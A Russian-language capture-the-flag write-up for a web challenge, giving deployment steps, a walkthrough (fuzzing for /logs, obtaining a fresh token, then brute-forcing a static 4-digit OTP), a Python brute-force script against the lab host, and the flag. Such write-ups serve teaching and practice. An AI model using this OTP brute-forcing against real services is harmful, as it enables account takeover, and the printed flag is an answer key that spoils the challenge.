



***Описание***: Как всегда, когда мы устаем мы допускаем ошибки, этот сайт не исключение. Формат флага: Shift{plain_text}

---

***Решение***:

При необходимости деплой таска следующий:

```sh
1. cd to lab

2. docker-compose build

3. docker-compose up
```

Сам сайт:



Сканим сайт фуззером (например, gobuster), находим ***/logs***



Понимаем что все токены на странице простроченные

Ищем .js endpoint его можно отловить на странице с токенами **/logs/** в теге `<scripts>`



При каждом обращении генерируем токен и идем на страницу **/**

Сайт попросит ввести email с доменом @vunerable.com вводим например admin@vunerable.com

Далее просит ввести OTP (4-значный одноразовый код). OTP ***статичный*** об этом написано в console.log() -> нужно его сбрутить

После вводим сбрученный OTP

Сплойт:

```python
#!/usr/bin/python3
import requests


def main():
	url = "http://flagsharing.ru:5000"
	for otp in range(10000):
		# request authorization token
		auth_token = requests.post(f"{url}/api/request/auth_token")

		# send the X-Authorized-For header
		headers = {
			"Content-Type": "application/x-www-form-urlencoded",
			"X-Authorized-For": auth_token.text.strip()
		}

		# submit email to request OTP
		data = {"email": "leetcipher@vulnerable.com"}
		requests.post(f"{url}/request_otp", headers = headers, data = data)

		# brute-force OTP
		data = {"otp": "{:04}".format(otp)}
		response = requests.post(f"{url}/submit_otp", headers = headers, data = data, allow_redirects = False)
		print("[{:04}] -> [{}]".format(otp, response.status_code))

		# check if the response status code equal to anything except 401
		if response.status_code != 401:
			print("valid OTP -> [{}]".format(otp))
			break


if __name__ == "__main__":
	main()
```

---

Флаг: Shift{EZ_KILL_EZ_KILL_WATSAO_NIMA}